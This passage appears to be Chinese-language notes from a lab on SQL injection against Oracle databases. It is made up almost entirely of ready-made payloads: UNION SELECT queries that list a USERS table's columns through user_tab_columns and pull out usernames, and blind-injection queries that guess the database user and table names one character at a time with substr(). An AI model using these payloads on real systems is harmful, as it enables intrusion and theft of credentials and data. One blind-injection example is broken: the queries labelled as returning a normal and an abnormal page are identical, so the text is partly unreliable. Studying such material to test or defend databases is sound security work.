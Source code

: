 ```


# 查询指定表名的字段名
select id,username,password from users where username='admin' union select null,(select column_name from user_tab_columns where table_name='USERS' and rownum=1),null from dual;

# 查询指定表名的字段名 （排除指定的字段名，获取下一个字段名）
select id,username,password from users where username='admin' union select null,(select column_name from user_tab_columns where table_name='USERS' and column_name <> 'ID' and rownum=1),null from dual;

# 查询数据
select id,username,password from users where username='admin' union select null,(select USERNAME from USERs where rownum=1),null from dual;
```

盲注
构造不同条件,通过返回页面/响应码的不同进行注入。
* substr() 字符串比较
* substr() + decode()
* case + substr() + ascii()
* case + instr() + chr()
```
# 猜解用户
select id,username,password from users where username='admin' and (select substr(user, 1, 1) from dual)='S'; #返回正常
select id,username,password from users where username='admin' and (select substr(user, 1, 1) from dual)='S'; #返回异常
select id,username,password from users where username='admin' and (select substr(user, 1, 6) from dual)='SYSTEM'

# 猜解的一个表名测试
select id,username,password from users where username='admin' and substr((select table_name from user_tables where rownum=1),1,1)='A'
select id,username,password from users where username='admin' and substr((select table_name from user_tables where table_name <> 'AQ$_INTERNET_AGENTS
' and rownum=1),1,1)='L'
```


## 参考链接 ##
[Docker：（一）安装Oracle数据库](https://blog.csdn.net/ScorpC/article/details/90754321)
[oracle 查询表名以及表的列名](https://blog.csdn.net/zhouxinhong/article/details/7633385)
[Oracle注入从0到1/2 ](https://mp.weixin.qq.com/s?__biz=MzU0MDg5MzIzMQ==&mid=2247484984&idx=1&sn=63e5f3461cee5b5f0038d282cc66860f)